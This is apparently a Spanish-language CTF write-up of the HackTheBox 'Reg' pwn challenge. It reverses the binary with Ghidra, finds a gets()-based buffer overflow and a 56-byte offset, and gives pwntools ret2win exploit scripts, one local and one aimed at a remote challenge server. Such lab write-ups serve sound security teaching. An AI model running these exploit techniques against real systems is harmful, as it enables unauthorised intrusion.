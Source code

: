 ```yaml
---
title: Reg - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

Este es un reto de pwning, del tipo `ret2win`, el cual implica explotar un *Buffer Overflow* con el objetivo hacer una llamado a una función que imprime la `flag` del desafío por pantalla.

Para comenzar, primeramente realizamos un análisis general del binario, checando sus protecciones:

![Untitled](/assets/img/htb/pwn/Reg/Untitled.png)

Como se muestra en imagen, el binario es de `64 bits` y posee la protección `no-execute (NX)`, lo cual desde ya, significa que no podremos cargar código malicioso en el stack, mediante un `shellcode`.

Hecho esto, podemos empezar a entender la función y comportamiento del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%201.png)

Al parecer es algo bastante sencillo, ya que sólo te pide el nombre y nada más.

En base a esto, comenzamos jugar y en lugar de colocar un nombre de `10 bytes`, metemos una `string` de `100 bytes`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%202.png)

Como se muestra en imagen, el programa arroja un error `segmentation fault`, lo cual es más que suficiente para intuir que hemos desbordado el *buffer*.

Sabiendo esto, analizaremos el programa un poco más a fondo, aplicando reversing con Ghidra.

En la siguiente imagen, podemos observar que existe una función `main` la cual hace una llamada a `run`:

```c
int main(void)

{
  run();
  return 0;
}
```

La función `run` está encargada de recibir los datos del usuario por medio de la función `gets`, como se muestra a continuación:

```c
void run(void)

{
  char user_name [48];
  
  initialize();
  printf("Enter your name : ");
  gets(user_name);
  puts("Registered!");
  return;
}
```

En este punto, ya podemos identificar dónde se acontece el *buffer overflow*. 

Como se muestra en el código anterior, el programa usa la función `gets` para recibir el `input` del usuario. Dicha función es conocidamente vulnerable a ataques de desbordamiento de *buffer*, ya que esta no valida si el número de `bytes` introducidos por el usuario coinciden con aquellos que se reservaron para la variable, en base a esto el usuario puede comenzar a sobrescribir otras área de la memoria y controlar el flujo del programa:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%203.png)

Siguiendo con Ghidra, se logra identificar una función `winner` la cual no es llamada desde `main` o `run`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%204.png)

Como se observa a continuación, el código de la función `winner` se encarga de imprimir el contenido del archivo `flag.txt` por pantalla:

```c
void winner(void)

{
  char flag_content [1032];
  FILE *flag_file;
  
  puts("Congratulations!");
  flag_file = fopen("flag.txt","r");
  fgets(flag_content,1024,flag_file);
  puts(flag_content);
  fclose(flag_file);
  return;
}
```

Una vez analizado todo el flujo del programa, continuamos con la detección del `offset`, o sea la cantidad de bytes que tenemos que meter en el *overflow* antes de sobrescribir la dirección de retorno.

Para esto computamos una cadena `100 bytes`, utilizando `pattern create` en `gdb-gef`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%205.png)

Al colocar esta cadena en el `name` provocamos que se sobrescriban los registros del programa, con lo que logramos detectar el `offset` correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%206.png)

Teniendo el `offset` en mano, sólo nos estaría faltando identificar la ubicación de memoria de la función `winner`, lo cual es logrado fácilmente con la herramienta `readelf`:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%207.png)

En base a todos los datos recopilados anteriormente, se construye el siguiente exploit, el cual se encarga de explotar el BoF de manera local para leer el contenido del archivo `flag.txt`:

```python
#!/usr/bin/env python3

from pwn import process, p64

if __name__ == '__main__':
    p = process('./reg')

    offset = 56
    junk = b'\x41' * offset
    
    winner_addr = 0x401206 # winner() location

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Como se puede observar en imagen, el BoF es explotado correctamente de forma local:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%208.png)

Para explotar el BoF de forma remota, sólo tendríamos que modificar el exploit, colocando el método `remote` en lugar de `process`, y así conectarnos al server de HTB:

```python
#!/usr/bin/env python3

from pwn import remote, p64, log

if __name__ == '__main__':
    p = remote('206.189.27.45', 31721) # htb remote connection

    offset = 56
    junk = b'\x41' * offset

    # winner() function location
    winner_addr = 0x401206

    # ret2win payload
    payload = junk 
    payload += p64(winner_addr) 

    # exploiting bof
    p.sendlineafter(b'Enter your name : ', payload)
    p.interactive()
```

Ya ejecutando el exploit logramos obtener la `flag` del desafío correctamente:

![Untitled](/assets/img/htb/pwn/Reg/Untitled%209.png)